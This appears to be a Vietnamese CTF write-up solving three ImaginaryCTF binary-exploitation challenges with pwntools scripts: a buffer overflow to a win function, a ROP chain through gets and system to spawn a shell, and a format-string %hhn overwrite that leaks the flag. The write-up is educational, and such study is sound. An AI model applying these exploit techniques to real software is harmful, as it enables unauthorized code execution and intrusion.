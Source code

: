 ## PWN
### Ret2win
Bài này đề cho ta file binary và file source
```clike=
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

![](https://hackmd.io/_uploads/HJ4LQEbs3.png)

Vậy bài này bof cơ bản.
```python=
from pwn import *
exe = ELF("chal")
#p = process(exe.path)
p = remote("ret2win.chal.imaginaryctf.org",1337)
p.sendline(b'a'*72+p64(0x000000000040101a)+p64(exe.sym['win']))
p.interactive()
```
#### `flag:ictf{r3turn_0f_th3_k1ng?}`
### Ret2close
Bài này cũng cho file binary và file source y chang bài trước.
Lần này đề nói thêm là phải lấy shell. Ở đây khi debug ta nhận thấy rdi tức arguments 1 trỏ vào địa chỉ có thể read-write trước khi `ret` -> gọi PTL `gets` -> nhập `/bin/sh` -> gọi PLT `system`

![](https://hackmd.io/_uploads/S1WBENZj2.png)


Khi chạy code thì ta thấy rằng thay vì thực hiện `/bin/sh` mà thực hiện `/bin.sh`

![](https://hackmd.io/_uploads/HJMa3i353.png)

Ta để ý rằng `ord(.) < ord (/)` 1 đơn vị. Vậy thì ta thử gửi `ord(0)` vì `ord(0)-1 = ord(/)`
Đổi lại thì ta có được flag.

```python=
from pwn import *
exe = ELF("chal")
p = process(exe.path)
#p = remote("ret2win.chal.imaginaryctf.org",1337)

'''
gdb.attach(p,
"""
b*main + 34
""")
input()
'''
gets = 0x401060
ret = 0x000000000040101a
p.sendline(b'a'*64+p64(exe.bss()+0x20)+p64(ret)+p64(gets)+p64(ret)+p64(0x401050))
p.sendline(b'/bin0sh\x00')
p.interactive()

```
#### `flag:ictf{ret2libc?_what_libc?}`
### Form
Bài này cho ta 1 file binary

![](https://hackmd.io/_uploads/ByUN0in9h.png)

Dễ dàng nhận thấy có lỗi format string ở hàm `printf(format)`

![](https://hackmd.io/_uploads/SklaAj3q3.png)

Ta thấy rằng trước khi gọi `printf` thì trên stack có địa chỉ heap lưu `format` chỉ khác địa chỉ lưu flag 1 byte cuối.

![](https://hackmd.io/_uploads/r1qCRin52.png)

Do đó ta overwrite bằng `%n`. Nhưng ở đây có lưu ý là gọi từng %c thay vì gọi `%6$c` vì nó sẽ update stack trong từng lần gọi `%c` thay vì gọi giá trị cũ như `%6$c`

```python=
from pwn import *
exe = ELF("chal")
p = process(exe.path)
#p = remote("form.chal.imaginaryctf.org",1337)
gdb.attach(p,
"""
b*main+207
c
""")
input()
payload = b"%155c" +b"%c"*5+ b"%hhn" +b'%6$s' #+ b'%p'*6 + b'%6$p'
p.sendline(payload)

p.interactive()
```
#### `flag:ictf{ngl_kinda_bored_of_these}`